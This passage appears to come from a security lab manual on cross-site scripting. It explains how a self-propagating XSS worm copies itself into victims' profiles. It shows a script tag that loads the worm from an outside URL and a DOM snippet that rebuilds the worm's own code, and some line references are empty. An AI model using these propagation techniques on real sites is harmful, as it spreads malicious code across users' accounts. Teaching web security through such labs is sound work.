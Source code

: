 To achieve self-propagation, when the malicious JavaScript modifies the victim's profile,
it should copy itself to the victim's profile. There are several 
approaches to achieve this, and we will discuss two common approaches.

\paragraph{Link Approach:} If the worm is included using the {\tt src} attribute in the {\tt <script>} tag,
writing self-propagating worms is much easier. 
We have discussed the {\tt src} attribute in Task 1, and an example
is given below. The worm can simply copy the following
{\tt <script>} tag to the victim's profile, essentially
infecting the profile with the same worm.

\begin{lstlisting}
<script type="text/javascript" src="http://www.example.com/xss_worm.js">
</script>
\end{lstlisting} 

\paragraph{DOM Approach:} If the entire JavaScript program (i.e., the worm) is 
    embedded in the infected profile, 
    to propagate the worm to another profile, the worm code can use
    DOM APIs to retrieve a copy of itself from the web page.
    An example of using DOM APIs is given below. This code
    gets a copy of itself, and displays it in an alert window:

{\footnotesize
\begin{lstlisting}
<script id=worm>
   var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; (*@ \ding{192} @*)
   var jsCode = document.getElementById("worm").innerHTML;          (*@ \ding{193} @*)
   var tailTag = "</" + "script>";                                  (*@ \ding{194} @*)
   
   var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); (*@ \ding{195} @*)
      
   alert(jsCode);
</script>
\end{lstlisting}
}


It should be noted that {\tt innerHTML} (line ) only gives us the inside part of the
code, not including the surrounding {\tt script} tags. We just need to add the beginning tag
{\tt <script id="worm">} (line ) and the ending tag {\tt </script>} (line )
to form an identical copy of the malicious code.

